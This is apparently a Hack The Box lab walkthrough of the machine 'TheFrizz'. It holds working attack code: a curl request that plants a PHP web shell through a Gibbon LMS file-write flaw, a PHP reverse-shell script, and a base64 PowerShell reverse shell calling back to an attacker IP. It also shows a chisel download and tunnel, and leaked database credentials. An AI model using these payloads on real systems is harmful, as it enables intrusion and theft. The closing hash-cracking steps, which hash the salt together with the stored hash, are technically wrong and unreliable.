




# TheFrizz
### nmap Scan
```bash
sudo nmap -sVC -p80,445,3268,389 10.129.66.205
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-16 13:39 EDT
Nmap scan report for 10.129.66.205
Host is up (0.23s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.2.12)
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
|_http-title: Did not follow redirect to http://frizzdc.frizz.htb/home/
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: frizz.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: frizz.htb0., Site: Default-First-Site-Name)
Service Info: Hosts: localhost, FRIZZDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-03-17T00:40:22
|_  start_date: N/A
|_clock-skew: 6h59m59s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 69.73 seconds
```
The nmap shows that the server is running open ssl `OpenSSL` version ->` 3.1.3` and a `PHP` version -> `8.2.12`

### Active Directory Domain
FRIZZDC, frizz.htb0

### Webpage
`http://frizzdc.frizz.htb` 
found base64 encoded text that reads.
```bash
V2FudCB0byBsZWFybiBoYWNraW5n
IGJ1dCBkb24ndCB3YW50IHRvIGdv
IHRvIGphaWw/IFlvdSdsbCBsZWFy
biB0aGUgaW4ncyBhbmQgb3V0cyBv
ZiBTeXNjYWxscyBhbmQgWFNTIGZy
b20gdGhlIHNhZmV0eSBvZiBpbnRl
cm5hdGlvbmFsIHdhdGVycyBhbmQg
aXJvbiBjbGFkIGNvbnRyYWN0cyBm
cm9tIHlvdXIgY3VzdG9tZXJzLCBy
ZXZpZXdlZCBieSBXYWxrZXJ2aWxs
ZSdzIGZpbmVzdCBhdHRvcm5leXMu
```
```bash
base64 -d encoded.txt

##output
## Want to learn hacking but don't want to go to jail? You'll learn the in's and outs of Syscalls and XSS from the safety of international waters and iron clad contracts from your customers, reviewed by Walkerville's finest attorneys.% 
```
From the decoded text it sounds like we are in a search for `XSS` and `syscalls`? 

## Staff Login page
`http://frizzdc.frizz.htb/Gibbon-LMS/`
Powered by Gibbon v25.0.00 | © Ross Parker 2010-2025
Searchsploit shows that Gibbon v26.0.00 is vulnerable

 
 ### Names to note for possible username or email
`Ross Parker`
`Mike Smith`

The scrip requires a username or email and password. will hold on that for later. 

## Payload 
```php
<?php
    $ip = '10.10.16.4'; // Your Kali IP
    $port = 4444; // Listening Port
    $sock = fsockopen($ip, $port);
    if ($sock) {
        proc_open('cmd.exe', array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);
    }
?>
```

## Post request with curl
```bash
curl -X POST "http://frizzdc.frizz.htb/Gibbon-LMS/modules/Rubrics/rubrics_visualise_saveAjax.php" \
-H "Host: frizzdc.frizz.htb" \
--data-urlencode "img=image/png;asdf,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsgPz4K" \
--data-urlencode "path=shell.php" \
--data-urlencode "gibbonPersonID=0000000001"

```
Linsting on the port `nc -lvnp xxxx`
```bash
nc -lnvp 4444
```

Using the revshells.com Powershell #3 (base64) urlEncode

```bash
curl -v "http://frizzdc.frizz.htb/Gibbon-LMS/shell.php?cmd=powershell%20-e%20JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4AMQAwACIALAA0ADQANAA0ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA%3D%3D"
```

Go the reverse shell working.

## Mysql database Creds
```bash
 * Sets the database connection information.
 * You can supply an optional $databasePort if your server requires one.
 */
$databaseServer = 'localhost';
$databaseUsername = 'MrGibbonsDB';
$databasePassword = 'MisterGibbs!Parrot!?1';
$databaseName = 'gibbon';

```
Now that we have database info but we can't connecdt becase the mysql is only running on the localhost. lets use a tool called chisel.
## Chisel
### Downloading Chisel using powershell
```bash
Invoke-WebRequest -Uri http://10.10.16.25:5555/chisel.exe -OutFile chisel.exe
```
### Runing Chisel On Target
```bash
.\chisel.exe client 10.10.16.25:8000 R:3306:localhost:3306
```

### Running Chisel server
```bash
chisel server -p 8000 --reverse
```

## Mysql connection

```bash
mysql -u <username> -p -h 127.0.0.1 -P 3306

# when asked for password provide the password and your loging
```


After going through the tables i found a GibbonPerson table which has a password and user with salt



Lets crack the password

## User Cred
- email: f.frizzle@frizz.htb
- username: f.frizzle 
```bash
#Password hash
067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03
#password Salf
/aACFhikmNopqrRTVz2489

# Need both to crack the hash. salt+hash or hash+salt
salt + hash: /aACFhikmNopqrRTVz2489 067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03

# OR
hash + salt: 067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03 /aACFhikmNopqrRTVz2489
```
Concatenate the Salt and Hash: The process usually involves combining the password hash with the salt, either by appending or prepending the salt to the hash.

### Hash the Combined Value: 
Now, take the concatenated string and hash it using the same hashing algorithm that was used (likely SHA-1 or MD5). You can do this with tools like OpenSSL, Hashcat, or Python.

```python
import hashlib

combined = "/aACFhikmNopqrRTVz2489" + "067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03"
hashed_password = hashlib.sha1(combined.encode()).hexdigest()
print(hashed_password)
```
## Compare with the Database: 
Once you generate the hash, you can compare it to the stored hash in the database. If they match, you've successfully derived the password.